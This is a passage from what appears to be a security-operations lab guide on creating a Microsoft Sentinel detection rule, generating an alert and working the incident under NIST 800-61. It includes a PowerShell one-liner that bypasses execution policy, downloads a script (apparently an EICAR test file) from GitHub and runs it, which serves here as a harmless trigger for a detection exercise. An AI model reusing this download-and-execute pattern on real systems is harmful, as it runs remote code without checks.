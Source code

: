 - Opens a command prompt.</br>
- Runs PowerShell with relaxed security.</br>
- Downloads a PowerShell script from a GitHub URL.</br>
- Saves it to C:\ProgramData\eicar.ps1.</br>


Once your query is good, create the **Schedule Query Rule in: Sentinel → Analytics → Schedule Query Rule**


<img width="1073" height="1127" alt="image" src="https://github.com/user-attachments/assets/fe0ebeab-941f-4407-b815-27d59dca8e2f" />


## 🛠️ Part 2: Trigger Alert to Create Incident

Note: If your VM is onboarded to MDE and has been running for several hours, the attack simulator will have done the actions necessary to create the logs. If not, you can paste the following into PowerShell on your VM to create the necessary logs:

```
powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri 'https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/eicar.ps1' -OutFile 'C:\programdata\eicar.ps1';
powershell.exe -ExecutionPolicy Bypass -File 'C:\programdata\eicar.ps1';

```


Don’t get confused between the **[Configuration → Analytics] and [Threat Management → Incidents]** sections.

## 🔐 Part 3: Work Incident

Work your incident to completion and close it out, in accordance with the NIST 800-61: Incident Response Lifecycle

**Preparation**

- Document roles, responsibilities, and procedures.
- Ensure tools, systems, and training are in place.

**Detection and Analysis**

- Identify and validate the incident.
- Observe the incident and assign it to yourself, set the status to Active.

<img width="2217" height="1239" alt="image" src="https://github.com/user-attachments/assets/173b99b4-bf96-47ab-85c3-71b7a07dfe43" />

<br/><br/>
- Investigate the Incident by Actions → Investigate (sometimes takes time for entities to appear)
<br/><br/>
<img width="1680" height="1088" alt="image" src="https://github.com/user-attachments/assets/70ceaee1-8184-4fbb-8fc7-2560126af7fa" />


**Gather relevant evidence and assess impact**<br/><br/>
- The script files are evidence, but the real threat is why and how they were downloaded/executed.
